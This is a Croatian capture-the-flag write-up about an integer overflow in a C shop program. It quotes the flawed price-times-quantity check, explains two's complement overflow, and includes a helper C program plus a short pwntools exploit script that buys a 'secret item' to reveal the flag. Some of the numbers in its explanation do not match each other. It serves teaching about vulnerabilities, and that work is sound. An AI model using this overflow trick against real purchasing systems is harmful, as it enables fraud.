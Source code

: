 # Writeup

## Otkrivanje ranjivosti

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

## Objašnjenje ranjivosti

Najveća moguća vrijednost varijable tipa int u C programskom jeziku je ```2 147 483 647```. Ako integer varijabla sadrži tu najveću vrijednost i inkrementira se za jedan, tada će nova vrijednost biti ```-2 147 483 648```. To se događa zbog integer overflow-a, gdje se nakon postizanja najveće moguće vrijednosti 32-bitnog int tipa (2 147 483 647) inkrementiranjem prelazi u negativni raspon zbog dvokomplementnog prikaza brojeva, gdje se najviši bit koristi za znak broja.

Na sljedećoj slici prikazan je primjer integer overflow-a u 8-bitnom dvokomplementnom prikazu brojeva (32-bitni prikaz je sličan).

![slika](https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb)

Kod dvokomplementnog prikaza brojeva, najznačajniji bit se koristi za mogućnost spremanja negativnih brojeva. U ovom primjeru, najznačajniji bit nosi vrijednost ```-128```. Ako se na vrijednost ```127``` (koja u binarnom prikazu ima sve jedinice osim najznačajnijeg bita) pribroji jedan, tada će se sve jedinice pretvoriti u nule i jedinica će se prenijeti na najznačajniji bit.

U zadatku, integer overflow se pojavljuje prilikom unoška cijene i količine.

Izrađen je kratak program koji traži najmanju količinu koja kada se pomnoži s cijenom stvari _Super tajna stvar_ uzrokuje integer overflow:
```
#include <stdio.h>

int main()
{
    int cijena = 2232350;
    int kolicina = 1;
    for(;kolicina<99999999;kolicina++){
        int ukupno = kolicina*cijena;
        
        if(ukupno<=0){
            printf("%d\n",kolicina);
            printf("%d\n",ukupno);
            break;
        }
    }

    return 0;
}
```

Izlaz programa:
```
962
-2147446596
```

Iz izlaza programa vidimo kako je najmanja količina koja uzrokuje integer overflow jednaka ```962```.

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-1135796254 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje istinit.


## Iskorištenje ranjivosti

Rješenje:
```
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogućava pwn tools da može pročitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output
#b ispred stringa veli pythonu da on to tretiura kao bytove, jer python ima neke druge UTF-8 stringove

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 3

payload = b""
payload += b"9" * 11

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive(); #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.
